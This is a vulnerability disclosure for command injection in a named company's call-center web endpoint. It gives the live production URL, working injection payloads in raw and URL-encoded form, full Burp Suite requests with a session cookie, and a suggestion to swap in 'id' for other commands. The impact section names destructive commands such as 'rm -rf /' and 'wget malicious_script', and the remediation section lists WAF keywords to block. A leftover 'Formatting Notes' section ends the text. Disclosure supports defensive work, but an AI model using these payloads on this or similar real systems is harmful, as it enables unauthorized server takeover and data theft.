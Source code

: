 # Vulnerability Title
**Remote Code Execution (RCE) Vulnerability in Aishida Co., Ltd. Call Center System**  


# Vulnerability Overview
A Remote Code Execution (RCE) vulnerability exists in the interface of Aishida Co., Ltd.'s call center system. Attackers can exploit this vulnerability by crafting malicious request parameters to execute arbitrary shell commands on the target server, thereby gaining full control of the system. The root cause is insufficient input validation, allowing attackers to inject command separators (e.g., `||`) to trigger malicious code execution.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741962864697-455e1676-a6e4-4199-9cd7-c59a34662aaa.png)
**Vulnerability Website：**http://www.asd.com.cn/

# Asset Verification
## Company Profile
Aishida Co., Ltd. (Stock Code: 002403), founded in 1978, is a publicly listed enterprise specializing in the R&D, manufacturing, and marketing of cookware, small kitchen appliances, and industrial robots. With nearly 10,000 employees, the company achieved over 3 billion RMB in sales revenue in 2021. It operates production facilities in Wenling, Jiashan, Hubei, and Shanghai, and maintains a comprehensive sales network covering over 60,000 terminals (direct sales + distributors), e-commerce platforms, live streaming, social communities, group purchasing, TV shopping, cross-border e-commerce, and OEM exports. Brand ambassadors include Sun Li and Ren Jialun.  

Aishida has participated in drafting 20 national or industry standards for cookware, including non-stick pans, smokeless pans, aluminum pressure cookers, and stainless steel pressure cookers. The GB 15066—2004 stainless steel pressure cooker standard, co-drafted by Aishida, won the China Standards Innovation Contribution Award. The company is recognized as a National Intellectual Property Pilot Enterprise and a National Torch Program Key High-Tech Enterprise. Guided by its mission, "Manufacturing Healthy Kitchen Products to Enhance Human Life Quality," Aishida strives to promote green kitchens and aims to evolve into a dual-driven enterprise integrating cookware, home goods, consumer products, and intelligent manufacturing.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741960859990-099ce111-60ab-434b-8922-7ca6c6af26ea.png)  

## Corporate Information
### ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961216972-90c4cb20-8b40-4e15-a67c-23f0972ffaac.png)
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961341526-993f929b-b0c0-4640-a63d-966165b11ee1.png)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961255910-c1d5af07-3ddd-45af-ac8c-04f6fbde7912.png)  

+ **Chinese Name:** 爱仕达股份有限公司  
+ **English Name:** Aishida Co., Ltd.  
+ **Website:** [http://www.chinaasd.com](http://www.chinaasd.com)  
+ **Email:** 445778987@qq.com


# Technical Analysis
## Vulnerability Location
**Affected Endpoint:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=[User Input]  
```

## Root Cause
1. **Lack of Input Sanitization:** The `file` parameter is directly concatenated into system commands (e.g., using `system()` or `popen()` functions).  
2. **Command Injection Logic:**  
The server expects to execute commands such as:  

```bash
ffmpeg -i [User Input].amr output.mp3  
```

If an attacker injects `a 'aaabbbcccddd || sleep 5 ||`, the executed command becomes:  

```bash
ffmpeg -i a 'aaabbbcccddd || sleep 5 ||.amr output.mp3  
```

The shell interpreter treats `||` as command separators, causing `sleep 5` to execute independently.


# Proof of Concept (PoC)
## PoC 1: Delay via Sleep Command
### Sleep for 5 Seconds
1. **PoC Request:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=a 'aaabbbcccddd || `sleep 5`   ||  
```

2. **URL-Encoded Request:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%205`%20%20%20||  
```

3. **Validation:**  
    - Observe response time: A 5-second delay confirms successful execution.  
    - Replace `sleep 5` with other commands (e.g., `id`) to retrieve system user information.

### Burp Suite Request
```http
GET /doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%205`%20%20%20|| HTTP/1.1  
Host: www.asd.com.cn  
Upgrade-Insecure-Requests: 1  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=2s9mg0ocf8hsvru6rfh9agvhh7  
x-forwarded-for: 127.0.0.1  
Connection: keep-alive  
```

### Screenshots
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961160896-35b79252-647c-4447-ac0b-b75b87a5b4c1.png)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961815540-79db6fd6-544e-44fc-aa78-6d7471e2cae6.png)  


## PoC 2: Sleep for 10 Seconds
```http
GET /doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%2010`%20%20%20|| HTTP/1.1  
Host: www.asd.com.cn  
Upgrade-Insecure-Requests: 1  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=2s9mg0ocf8hsvru6rfh9agvhh7  
x-forwarded-for: 127.0.0.1  
Connection: keep-alive  
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961982633-d84201b4-5d26-421b-b924-ef003e78fdd6.png)  


# Impact Assessment
1. **Full Server Compromise:** Attackers can execute commands like `rm -rf /` or `wget malicious_script`, leading to data breaches or system crashes.  
2. **Lateral Movement:** Compromised servers can be used as pivots to attack internal databases or other systems.  
3. **Compliance Risks:** Violates Articles 21 and 25 of China’s Cybersecurity Law, exposing the company to legal penalties.  
4. **Reputation Damage:** Data breaches severely harm brand credibility.


# Remediation Strategies
## 1. Input Filtering & Whitelisting
+ **Regex Filtering:** Restrict the `file` parameter to valid characters (e.g., `^[a-zA-Z0-9_\-\.]+$`), blocking inputs containing `|`, `&`, `;`, etc.  
+ **Predefined File List:** Match input against a predefined list if `file` corresponds to fixed resources.

## 2. Secure Command Execution
+ **Parameterized APIs (Python Example):**  

```python
subprocess.run(["ffmpeg", "-i", user_input + ".amr", "output.mp3"], shell=False)  
```

+ **Avoid Command Concatenation:** Refrain from using high-risk functions like `os.system()`.

## 3. Least Privilege
+ **Non-root Execution:** Run web services under a non-root user with restricted filesystem access.

## 4. Emergency Mitigation
+ **WAF Rules:** Block requests containing keywords like `sleep`, `&&`, `||`.  
+ **Log Monitoring:** Alert on suspicious activities (e.g., `/bin/sh` invocations).

## 5. Long-term Hardening
+ **Code Audit:** Review all interfaces for similar vulnerabilities.  
+ **Penetration Testing:** Conduct regular third-party black-box testing.


**Formatting Notes:**  

1. Use ` to separate sections for clarity.  
2. Specify code block languages (e.g., `bash`, `http`) for readability.  
3. Include technical details (e.g., regex patterns, code samples) in remediation strategies.  
4. Supplement PoC sections with screenshots to enhance credibility.

